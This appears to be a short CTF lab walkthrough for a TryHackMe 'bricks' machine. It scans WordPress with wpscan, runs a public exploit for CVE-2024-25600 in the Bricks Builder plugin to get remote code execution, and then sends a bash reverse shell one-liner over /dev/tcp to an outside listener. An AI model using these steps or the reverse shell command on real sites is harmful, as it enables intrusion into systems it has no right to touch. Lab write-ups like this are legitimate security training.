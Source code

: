 ![[Pasted image 20240819211722.png]]

the entire command would look like this 

```
wpscan --url https://bricks.thm --disable-tls-checks
```

This is the most interesting here 

![[Pasted image 20240819211955.png]]

Lets search a exploit for this 

Found this : https://github.com/Tornad0007/CVE-2024-25600-Bricks-Builder-plugin-for-WordPress

Lets try this exploit

For this tho we need a download a pip module like this 

![[Pasted image 20240819212549.png]]

Now lets run it 

```
python3 exploit.py --url https://bricks.thm
```

![[Pasted image 20240819212715.png]]

We have RCE now lets get a shell now 

First start a listener : 

![[Pasted image 20240819213021.png]]

and then type in this in RCE : 

```
bash -c 'exec bash -i &>/dev/tcp/10.17.94.2/9001 <&1'
```

![[Pasted image 20240819213155.png]]

And we get a shell 

![[Pasted image 20240819213330.png]]

U can upgrade this if u want im ok with this for now 

# First Question's Answer : 

![[Pasted image 20240819213439.png]]

# Second Question's Answer : 
